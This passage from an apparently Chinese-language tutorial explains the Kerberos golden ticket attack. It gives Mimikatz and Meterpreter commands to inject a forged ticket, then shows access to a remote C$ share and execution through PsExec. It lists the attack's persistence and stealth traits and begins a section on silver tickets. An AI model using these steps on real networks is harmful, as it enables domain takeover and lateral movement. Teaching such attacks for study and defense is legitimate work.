 

注入当前用户内存中：

Mimikatz

```
kerberos::ptt utilisateur.chocolate.kirbi
```

Meterpreter

```
kerberos_ticket_use utilisateur.chocolate.kirbi
```

查看内存中的 ticket

```
kerberos::list
kerberos::tgt
kerberos_ticket_list # meterpreter
```

访问域内其他服务器

```
dir \\WIN-PTELU2U07KG\C$
```

**注意**：如果使用 IP 地址访问的话会失败，使用 Netbios 的服务名访问才会走 Kerberos 协议（具体原因可以比较两协议的原理得出）。



通过 psexec 执行命令

```
PsExec64.exe \\WIN-PTELU2U07KG\ cmd.exe
```

理论上也可以使用 powershell、wmic 来远程执行命令。



**黄金票据的特点**

- 黄金票据可以冒充域内任何用户生成对应的 Kerberos TGT 票证。因此，它可以用来任何合法的用户，虽然一般都会选择域管理员帐户；

- 可以离线创建。一旦收集了创建黄金票据所需的所有数据，就不需要连接到域（参见上面的内容）;
- 在有限期内都有效。Mimikatz 默认值为10年，也提供了参数可以创建任意有效期的黄金票据。但如果域管理员修改了 krbtgt 账户的 Hash， 黄金票据就会立即失效；
- 域组策略中修改 Kerberos Policy 中的生存周期（lifetime）不会影响到黄金票据（默认更新时间为10小时，总有效时间为7天）。KDC 会验证 TGT 中的存活时间戳，而不是域控上的组策略设置。攻击者生成任何生存周期的黄金票据;
- 被冒充的帐户重置密码不会影响到黄金票据；
- 重置 krbtgt 账号的密钥会使所有的黄金票据失效；
- Windows 事件日志不区分合法TGT与黄金票据。 因此目前没有通用的规则来检测黄金票据使用。



### 白银票据 （Silver Ticket）

通过获取 Server 端本地计算机账户（或服务账号）对应的 NTLM Hash，在不用与 KDC 进行通信的情况下，就能伪造该计算机任意服务的 Ticket。



![/styles/images/kerberos/silverticket.png]({{ '/styles/images/kerberos/silverticket.png' | prepend: site.baseurl }}) 

